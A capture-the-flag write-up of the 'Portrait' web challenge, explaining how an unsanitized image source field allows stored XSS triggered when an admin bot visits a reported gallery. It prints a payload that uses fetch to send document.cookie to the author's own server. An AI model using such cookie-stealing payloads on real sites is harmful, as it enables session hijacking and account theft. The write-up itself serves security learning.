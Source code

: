 ![6](https://github.com/user-attachments/assets/cbb7b0e8-d9d7-4010-a96b-be6b24f7ba6b)**Web: Portrait:**

I found this challenge the toughest, and I think it explains why it had the lowest solves in this category at only 40! 

Anyway the description of the challenge
**"It's like DeviantArt, but with a report button to keep it less Deviant. Reporting a gallery will make the admin bot visit it."**

Again another register & login

Once we log in we have 3 options, Logout, Report a portrait, which by the description we know we will use this to have admin fetch something and Add portrait.
I first went to understand the program better, and see what exactly admin can fetch,
when I tried to add a link, it disclosed the regex used for input validation

![1](https://github.com/user-attachments/assets/77cbefcf-9aa1-47c4-a14f-4410e3cfc109)



I couldn't see a way to bypass this after trying for a couple minutes, I decided to drop it and move on and understand the function of adding a portrait

![2](https://github.com/user-attachments/assets/abffb076-572e-48e1-84e9-9ce678fd73fd)


**Title** and **Image URL are required** so lets take a look at source code to figure out how its processed

![3](https://github.com/user-attachments/assets/55567b83-0f27-4799-a178-ae2e1bbb40a7)


First I noticed this, which tries to fetch the url of our image, if it fails it will replace it with the mountain image linked in the code
within index.js i found  that portraits are stored and fetched from /api/portraits/:username

![4](https://github.com/user-attachments/assets/16f0db2f-3c69-4360-94ff-24de28cda6b1)

/
Below we can see the front end of gallery,again portrait is pulled from /api/portraits/<username>    and it has two attributes
**portrait.source** and **portrait.name** HOWEVER from the two we can see that portrait.source the attribute it uses is src= of the <img


![5](https://github.com/user-attachments/assets/2ae67314-8159-4b5d-8bc1-2694cb037b0a)



Since there was no validation or sanitization for this input, I knew i'd be dealing with a stored XSS, now I would love to tell you I tried a few payloads and boom, I got it to work, this took a very long time to figure out, I've tried so many until I got a hit on the below
**data:text/javascript,print()**

![6](https://github.com/user-attachments/assets/701b19fa-15cf-47e5-96e0-6831f993a1dd)


and boy was I delighted to see this work, next was to find a way to exfiltrate, I saw earlier that sessions are handled using JWT tokens, so I started up my own VPS server to use as a webhook and launched a http server to listen for traffic
the payload I used to exfiltrate the cookie was:

**data:text/javascript,fetch('http://myvpsIP:8080/' + document.cookie)**
Last all was left is to lead the admin "bot" to our profile, by going to report and leading it to my profile URL on the web application, the bot will visit and be met with the above stroed XSS

And there it was a response with the cookie "flag"![image](https://github.com/user-attachments/assets/b7c90163-2626-4fff-a7c0-14f9886ccc0a)
